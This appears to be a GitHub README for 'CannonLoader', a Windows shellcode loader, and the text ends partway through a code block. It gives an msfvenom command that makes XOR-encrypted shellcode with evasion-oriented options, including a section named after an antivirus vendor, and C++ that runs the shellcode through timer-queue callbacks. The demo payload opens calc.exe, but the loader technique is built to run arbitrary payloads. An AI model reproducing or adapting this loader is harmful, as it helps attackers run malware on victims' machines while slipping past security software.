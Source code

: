 # CannonLoader

A nice little loader that uses rare methods to execute shellcode.

## Shellcode

Reading the second edition of the Metasploit The Penetration Tester's Guide gave me an idea to come up with a shellcode loader that uses mostly rare and custom methods, for example the msfvenom using mostly unseen flags:
```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=process -f c -b \x00\x0a\x0d --encrypt xor --encrypt-key racoten --nopsled 500 --sec-name bitdefender
```

## Execution

As well as executing it using TimerQueueTimer APIs to set up the shellcode to be run:
```cpp
 // Start the timer queue
    HANDLE hTimerQueue = pCreateTimerQueue();
    if (!hTimerQueue) {
        return 1;
    }
    
    HANDLE hTimer = NULL;
    if (!pCreateTimerQueueTimer(
        &hTimer,
        hTimerQueue,
        ShellcodeTimerCallback,
        g_execMem,       // Pass pointer to the .myexec buffer
        3000,
        0,
        0))
    {
        pDeleteTimerQueue(hTimerQueue);
        return 1;
    }

    // Wait for user input before cleaning up
    std::cin.get();

    if (hTimer) {
        pDeleteTimerQueueTimer(hTimerQueue, hTimer, NULL);
    }
    pDeleteTimerQueue(hTimerQueue);
```

## Management

Through all of this, I made sure to make another custom version of memcpy, mostly because I wanted to try to do one myself:
```cpp
namespace overly_complicated {

    class RawIterator {
    public:
        using iterator_category = std::random_access_iterator_tag;
        using value_type = char;
        using difference_type = std::ptrdiff_t;
        using pointer = char*;
        using reference = char&;

        RawIterator(pointer ptr) : m_ptr(ptr) {}
```